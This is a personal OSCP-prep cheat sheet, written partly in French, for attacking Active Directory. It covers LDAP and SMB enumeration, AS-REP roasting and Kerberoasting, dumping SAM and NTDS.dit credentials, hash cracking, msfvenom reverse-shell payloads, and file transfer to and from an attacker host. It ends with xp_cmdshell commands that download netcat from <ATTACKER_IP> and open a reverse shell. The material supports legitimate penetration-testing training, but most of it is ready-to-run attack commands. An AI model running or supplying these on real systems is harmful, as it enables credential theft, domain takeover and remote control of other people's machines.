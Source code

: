 # 🏅 OSCP Active Directory Cheat Sheet

{% hint style="success" %}
Ce document regroupe tout ce que j’ai appris au travers des box et des cours de préparation aux techniques d’exploitation Active Directory. Il reflète mon expérience personnelle et n’engage que moi. Je ne couvre pas ici les techniques les plus avancées, mais vous pouvez vous tourner vers d’autres ressources comme [The Hacker Recipes](https://www.thehacker.recipes/) pour approfondir le sujet.
{% endhint %}

***

## **🛡️ Active Directory Cheat Sheet**

### 📌 Reconnaissance & Énumération

<details>

<summary>🔍LDAP <strong>Enumeration</strong></summary>

*   **Énumération LDAP anonyme**

    ```bash
    ldapsearch -v -x -b "DC=<DOMAIN>,DC=com" -H "ldap://<IP>" "(objectclass=*)"
    ```
*   **Énumération LDAP auth (LAPS Password)**

    ```bash
    ldapsearch -x -H "ldap://<IP>" -D "<DOMAIN>\<USER>" -w "<PASSWORD>" -b "DC=<DOMAIN>,DC=com" "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
    ```
*   **Énumération with Windapsearch**

    ```bash
    ./windapsearch.py --dc-ip <IP> -u "" -U
    ```
*   **Extraction of users and descriptions via NetExec**

    ```bash
    #users
    nxc ldap $ip -u $user -p $password --users
    #desc
    nxc ldap "<DC>" -d "<DOMAIN>" -u "<USER>" -p "<PASSWORD>" -M get-desc
    ```
*   **Testing if an account exists without kerberos protocol**

    ```bash
    nxc ldap 192.168.1.0/24 -u users.txt -p '' -k
    #mode 18200 hashcat
    ```
*   **Asreproasting**

    ```bash
    nxc ldap 192.168.0.104 -u harry -p '' --asreproast output.txt
    ```
*   **Kerberoasting**

    ```bash
    nxc ldap 192.168.0.104 -u harry -p pass --kerberoasting output.txt
    #mode 13100 hashcat
    ```
*   **Bloodhound collector**

    ```bash
    nxc ldap <ip> -u user -p pass --bloodhound --collection All
    ```

Rest later

</details>

<details>

<summary>📂 SMB Enumeration</summary>

*   **List SMB Shares and users**

    ```bash
    crackmapexec smb <IP> --shares -u <USER> -p <PASSWORD> --users
    # command to get clean users.txt -> awk '/SMB/{if (NF>=5) print $5}' > users.txt
    ```
*   **Brute force RID for user enumeration**

    ```bash
    nxc smb <IP> -u '' -p '' --rid-brut
    ```
*   **List SMB shares anonymous**

    ```bash
    smbclient -L //<IP> -N
    ```
*   **Dumping all files in the share**

    ```bash
    nxc smb 10.10.10.10 -u 'user' -p 'pass' -M spider_plus -o DOWNLOAD_FLAG=True
    ```
*   **Dump SAM with admin privileges (--local-auth possible)**

    ```bash
    nxc smb 192.168.1.0/24 -u UserName -p 'PASSWORDHERE' --sam
    ```
*   **Dump NTDS.dit with DomainAdmin or Local Admin**

    ```bash
    nxc smb 192.168.1.100 -u UserName -p 'PASSWORDHERE' -M ntdsutil
    ```

There are plenty of Credentials discovery commands, no need to put everything, commands here: [https://www.netexec.wiki/smb-protocol/obtaining-credentials](https://www.netexec.wiki/smb-protocol/obtaining-credentials)

</details>

####

#### 🎯 **Droits Windows (Privilege Escalation)**

* **SeBackupPrivilege** → Lire des fichiers normalement inaccessibles
* **SeRestorePrivilege** → Écraser des fichiers protégés
* **SeImpersonatePrivilege** → Exploitable avec JuicyPotato pour devenir SYSTEM
* **SeLoadDriverPrivilege** → Charger des drivers malveillants

***

### 💥 Cracking des Hashes

*   **NTLM**

    ```bash
    hashcat -m 1000 -a 3 hash.txt
    ```
*   **NetNTLMv1**

    ```bash
    hashcat -m 5500 -a 3 hash.txt
    ```
*   **NetNTLMv2**

    ```bash
    john --format=netntlmv2 hash.txt
    ```
*   **SPN Hash (Kerberoasting)**

    ```bash
    hashcat -m 13100 -a 0 spn.txt rockyou.txt
    ```

***

### 🚀 Payloads & Reverse Shells

*   **Windows Meterpreter**

    ```bash
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ATTACKER_IP> LPORT=<PORT> -f exe > shell.exe
    ```
*   **Windows Shell Staged**

    ```bash
    msfvenom -p windows/shell/reverse_tcp LHOST=<ATTACKER_IP> LPORT=<PORT> -f exe > shell.exe
    ```
*   **PowerShell Reverse Shell**

    ```bash
    msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<ATTACKER_IP> LPORT=<PORT> -f psh-cmd
    ```

***

### 🔄 Transfert de Fichiers

*   **Serveur HTTP Python**

    ```bash
    python3 -m http.server 80
    ```
*   **Télécharger un fichier via PowerShell**

    ```powershell
    powershell -c "Invoke-WebRequest -Uri 'http://<ATTACKER_IP>/file.exe' -OutFile 'C:\Users\Public\file.exe'"
    ```
*   **Exfiltration via SMB**

    ```bash
    smbclient //<ATTACKER_IP>/SHARE -U "USER" -c "put file.exe"
    ```

***

### 🏴‍☠️ Post-Exploitation

*   **Changement du mot de passe via RPC**

    ```bash
    setuserinfo <USER> 23 'NewPassword123!'
    ```
*   **Utilisation d’un ticket Kerberos pour MSSQL**

    ```bash
    export KRB5CCNAME=$PWD/Administrator.ccache
    ```
*   **Téléchargement de Netcat via MSSQL**

    ```bash
    xp_cmdshell "curl http://<ATTACKER_IP>/nc.exe -o c:\temp\nc.exe"
    ```
*   **Reverse Shell via MSSQL**

    ```bash
    xp_cmdshell "c:\temp\nc.exe <ATTACKER_IP> <PORT> -e cmd.exe"
    ```

